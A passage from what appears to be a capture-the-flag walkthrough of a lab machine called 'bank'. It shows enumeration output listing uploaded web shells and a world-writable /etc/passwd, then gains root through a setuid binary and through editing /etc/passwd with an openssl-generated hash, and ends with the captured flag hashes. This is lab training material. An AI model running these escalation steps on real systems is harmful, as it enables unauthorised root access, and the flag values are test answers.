-rw-r--r-- 1 root     root      584 Jun 15  2017 dd72dfee0e8914682822bc675abc1c1b.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 dd764f1f57fc65256e254f9c0f34b11b.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 dd8b35539e6e28b7fca7e16ed30346bc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 dd98b8e773842caceb3dfd65807b96a6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 dda838ffa97c73f9b23635a3ea2af089.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ddba1881bb08a67296da274255327295.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 de05536aaad7fcd48213d4514d4e86ec.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 de90b8a1ab02fc3057c6bcae023994dc.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 debb6ca8f8c2d3111b3075318baf47fc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 df1868a53af00d00adcb968329cba2cf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 df3bb08355a9cf43ebf38c0b56572f24.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 df6f4c539f4e65dbab41c8d859d716ef.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 dfba0fca0f256dced2045954d288dc5a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e00ecd8f4f080b2f004469ab977557a2.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e0144aefd0efef77f6e22ccf0184be7a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e0acada8ebe2e71f0f2fb11f46a615ca.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e0f6f044cfa36d6e376e2c4d51e19c51.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e11afad2d397447c713765da5455284a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e131f1ebe2dd1c2e94bd520c453c6fba.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e133d908180589eec9ccfbea70d741d1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e1c22573a63c4b2a458b50fe5952dfbe.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e1f3df4623fdd06b5e73b0638e746d8c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e1fc90a1fcaf755f7d87642ee8435aff.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e21c913c872e02ae81887b8acc747d42.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e2460b444421f0c740771fb06d3f5383.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e260b48878509a1e12abb7614b1dae46.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e291abebd339260825783fb4c3a308ad.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e2dae8ebb3b4324ec60ea862147d86cf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e2e0c84c82bb1ec6e2ed2e47c4b613fa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e2e5811258574d046e14dcd3ac2c85bd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e321164b6a58b2bec20f5779cf81a035.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e3c644269174eb2836bc4fa382949bac.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e48560adbad98be98b7ea385132daaa1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e4939066a31bb3791e5090eaa126b578.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e515f0b553c041958bfefc737a7a9be7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e51cd1e8e3b38e7491b3a2bf1d54cb85.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e534ab97fa5fa6f90508261518af6761.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e545f6be978e341ad0412d954c6f5181.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 e5608acb3cdc61bf03e76ba0eec6f144.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e5d105066394c76b47ef9b0c13d1e702.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e5e37effa0bbb08e71244ea3fdbf135a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e65e4788185b3d1ba4de7cdcd3f3a5e2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e729ba75c2e61d75052983668155a494.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e7ceb9e11adb90e143e236cba4699893.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e874f65408cc3005163954b8b31ffeb9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e876afc6545d55e0d1297fcd95b0d334.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e9006b9e02ca5e2f64b4a6c1b88a6174.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 e90fc06918e95e2d0f4a32ea178f6f85.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e96eb0496f9f3f2187a91d47cc789c5e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 e9c21e21078cca67470688fd9750e35b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ea664b6fac225604ad4a76956a84de4b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 eb439f0ed2edd4a1ca186ef9c868c547.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 eb4d3f88032008b4c9e25b0c5410279d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 eb6069bbcc072e4748cc76e564634cb3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 eb9062859001f9d14e9d2aab827f27f6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ebb023e25c2d0714109c21850d514234.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ebdf24181447b673a3bd7b10867cf8d3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ec1499b623c132d074c2d81071fedc51.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ec4b903ebc21e5d0174d299a785b23d0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ec57cda985748265567eb5ce65cb6ead.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 ec60ca862555223fa6d3407485665ae1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ecf30d100c09f82894def7e49bbde2c8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ed64d19c83fa8a673b9613f18d072095.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ed78f0a148d4320566e799bc2b9bd6a9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ed7bb2476880c9f74fc6c84e9bae3d12.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ed8949614be8827cfcc3641f7cf6d84d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ee0e53c02d3af32a41b0b0db18110a71.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ee55be0f23fd34553071bf41289545e7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ee9f97e5d90be90ee1cbdff5587cce31.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 eeac7e1e3b5c37b8b41210f2f3565b83.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 eed2a0d81e1c8014dcff0f1e2e4aa549.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 eee184159db774335325d1a3df5a8bbf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ef7d353ab64ce2f8649a2fe2e044d00a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ef8acec46fe90bacf21119059ee61db0.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 efada3bec9954bac04fe2778a974c9a0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 efeb37c425e65acb60949b18d432327d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f09e4569207c33820d2be5ccb98a1879.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f0f1ee68fd1851d3174be51c80598aae.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f0f4ce2ed7613415ccf81b274f76ad1e.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 f0f8ea272f091256230e5cbab19a951f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f125d4527679f54ac91915ace260e1bb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f16338fa71b5d1b2490f38a38496a2a3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f17b615f6ca6e6d0187d580c5d7bba6b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f199c163d1bc548b847a6fe85548035d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f1baba483e8af22c333d241d44b03af7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f1fd45aaa2e9ebef30a2150276fa8c59.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f22de8ab72b1fb0fc43eed85368b984b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f283190eb6180e1a5e27983e1ff63289.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f2bfb6c3f7cbf65176e39105767b5fb7.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 f2cd9d9d2d57a8c9e97e427de36ced76.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f2d6fc8ebdb1e9bb6874673419e0e870.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f2d744aa3a27be76565cb900db0039f0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f393628766266e2325b9d665ff375314.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f3a0d4846c351a4c092c5c2d639e26ae.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f4475acf00fd37263c0e1d67dfe79393.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f456824eeebf1248ab0b21710eb7cd0c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f497a39d8a83ef18916f40e4bd2c0ead.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 f4af6b16beb3dbb6468ecf0c959bd090.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f4d4370f5f710441f928fbbc1493bb84.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f507318a91772b5bb04e2c4fcdf4b896.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f510f991d80a817405fdea6aeefa0c5a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f533a1c44df699fdbb0835050f71cd1a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f54e2b927d8fa8788744c6009d2a45ef.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f5affad2f51f9413416019913e509be2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f5c8f951cc3aa1d66430e3dbf1027039.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 f6607b35d03c6ee905e831c4a00af2c0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f6748d363aff0cc8c7beaa04f1b2ab7e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f676c085d2f8e218fc4272c348896c08.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 f77b61daae19f1fdf0331ae62d11b48f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f77b874da650efaa92c5c6a292bbba35.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f77e102769baf3c03c855cef0f9f41de.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f7d83ce903d4c505552533c269c22778.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f8020700b091366a5e1343b5c0020f9d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f81c0e2e2ac1dc3c497421d901b05da3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f85f26eaa265dd6dbdc8c29061323bf9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f8875be5e4ee006df2228b3ff0a7bd68.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f8f633fdff1ef33d238851f264bade56.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f9270f8014a481617dbac28aa5ec7450.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f94b9157b5e291720bb13d62b9a9623f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 f94dcf255199d565fc997fc6a91beed8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f9851c2e450f13261e020fcf7f0ed180.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f9c2c34471cfeb316881a2d97fa79c52.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 f9d12910695a055494dc254902131e12.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fa06f9a8d4672d4d739a99f310b3add0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fa34e37fb9b5153d44e8422b2ed95338.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fa4bf29c22b6e479c6c315ea15557ca2.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 faba62033042fee10008e7cd3790ba2e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fabfd4cd599ac63c5699f456f2cf448e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fb3cb6734c832b14987f002c2dadae19.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fb42d07220a996307df38ec7e6189b4c.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 fb5a9d6ac0d2c781dffd73c470f23fe0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fb73bed60d6dd4559860ea5f7f2f5a3c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fb891061321669dd0ef9d5114d476f3a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fbcbbd213f0a3e88ee84eea9a9d01b90.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fc6cdd24cf81d66d12c97aa97a37fe33.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fc73548dc690c238c5aff9cb9e440498.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 fc87e5f87f8d7a8eedc4ee85b5b1c58e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fcb78e263fc7d6e296494e5be897a394.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fdce9437d341e154702af5863bc247a8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fe426e8d4c7453a99ef7cd99cf72ac03.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fe85ff58d546f676f0acd7558e19d6ce.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fe8a8b0081b6d606d6e85501064f1cc4.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 fe9ffc658690f0452cd08ab6775e62da.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 feac7aa0f309d8c6fa2ff2f624d2914b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 fed62d2afc2793ac001a36f0092977d7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 fedae4fd371fa7d7d4ba5c772e84d726.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ff39f4cf429a1daf5958998a7899f3ec.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ff8a6012cf9c0b6e5957c2cc32edd0bf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ffc3cab8b54397a12ca83d7322c016d4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ffdfb3dbd8a9947b21f79ad52c6ce455.acc

/var/www/bank/inc:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun 15  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K May 28  2017 footer.php
-rw-r--r-- 1 www-data www-data 2.9K May 28  2017 header.php
-rw-r--r-- 1 www-data www-data 2.3K May 29  2017 ticket.php
-rw-r--r-- 1 www-data www-data 2.8K May 28  2017 user.php

/var/www/bank/uploads:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13 05:39 .
drwxr-xr-x 6 www-data www-data 4.0K Jun 15  2017 ..
-rw-r--r-- 1 root     root       14 May 29  2017 .htaccess
-rw-r--r-- 1 www-data www-data   36 Feb 13 05:30 shell.gif
-rw-r--r-- 1 www-data www-data   45 Feb 13 05:39 shell.htb

/var/www/html:
total 20K
drwxr-xr-x 2 root root 4.0K Jun 14  2017 .
drwxr-xr-x 4 root root 4.0K May 28  2017 ..
-rw-r--r-- 1 root root  12K May 28  2017 index.html


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/nmap
/usr/bin/gcc


Installed compilers:
ii  g++                                4:4.8.2-1ubuntu6                           i386         GNU C++ compiler
ii  g++-4.8                            4.8.4-2ubuntu1~14.04.3                     i386         GNU C++ compiler
ii  gcc                                4:4.8.2-1ubuntu6                           i386         GNU C compiler
ii  gcc-4.8                            4.8.4-2ubuntu1~14.04.3                     i386         GNU C compiler


Can we read/write sensitive files:
-rw-rw-rw- 1 root root 1252 May 28  2017 /etc/passwd
-rw-r--r-- 1 root root 707 May 28  2017 /etc/group
-rw-r--r-- 1 root root 665 Feb 20  2014 /etc/profile
-rw-r----- 1 root shadow 895 Jun 14  2017 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 144 May 28  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 321 Apr 16  2014 /etc/blkid.conf
-rw-r--r-- 1 root root 191 Dec  4  2013 /etc/libaudit.conf
-rw-r--r-- 1 root root 1320 Aug 19  2014 /etc/rsyslog.conf
-rw-r--r-- 1 root root 1260 Jul  1  2013 /etc/ucf.conf
-rw-r--r-- 1 root root 92 Feb 20  2014 /etc/host.conf
-rw-r--r-- 1 root root 4781 Nov 15  2013 /etc/hdparm.conf
-rw-r--r-- 1 root root 2584 Oct 10  2012 /etc/gai.conf
-rw-r--r-- 1 root root 350 May 28  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 7788 May 28  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 552 Feb  1  2014 /etc/pam.conf
-rw-r--r-- 1 root root 2084 Apr  1  2013 /etc/sysctl.conf
-rw-r--r-- 1 root root 956 Feb 19  2014 /etc/mke2fs.conf
-rw-r--r-- 1 root root 321 Jun 20  2013 /etc/updatedb.conf
-rw-r--r-- 1 root root 14867 May 10  2014 /etc/ltrace.conf
-rw-r--r-- 1 root root 604 Nov  7  2013 /etc/deluser.conf
-rw-r--r-- 1 root root 34 Aug  3  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 2969 Feb 23  2014 /etc/debconf.conf
-rw-r--r-- 1 root root 475 Feb 20  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 2981 Aug  3  2016 /etc/adduser.conf
-rw-r----- 1 root fuse 280 May 24  2013 /etc/fuse.conf
-rw-r--r-- 1 root root 703 Jan 22  2014 /etc/logrotate.conf
-rw-r--r-- 1 root root 771 May 19  2013 /etc/insserv.conf


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Aug  3  2016 .
drwxr-xr-x 14 root root 4096 May 29  2017 ..


### SCAN COMPLETE ####################################
www-data@bank:/dev/shm$
```

```sh
www-data@bank:/dev/shm$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
www-data@bank:/dev/shm$
```

```sh
www-data@bank:/dev/shm$ ls -l /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
www-data@bank:/dev/shm$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# 
```

###### Getting root using public write access to ``passwd`` file

```sh
www-data@bank:/dev/shm$ openssl passwd --help
Usage: passwd [options] [passwords]
where options are
-crypt             standard Unix password algorithm (default)
-1                 MD5-based password algorithm
-apr1              MD5-based password algorithm, Apache variant
-salt string       use provided salt
-in file           read passwords from file
-stdin             read passwords from stdin
-noverify          never verify when reading password from terminal
-quiet             no warnings
-table             format output as table
-reverse           switch table columns
www-data@bank:/dev/shm$
```

```sh
www-data@bank:/dev/shm$ openssl passwd kanishka
ejIr45ug1Uc2k
www-data@bank:/dev/shm$
```

```sh
www-data@bank:/dev/shm$ vi /etc/passwd
```





```sh
www-data@bank:/dev/shm$ su root
Password:
root@bank:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@bank:/dev/shm#
```

```sh
# cat /root/root.txt
d5be56adc67b488f81a4b9de30c8a68e
#
```

```sh
root@bank:/dev/shm# cat /home/chris/user.txt
37c97f8609f361848d8872098b0721c3
root@bank:/dev/shm#
```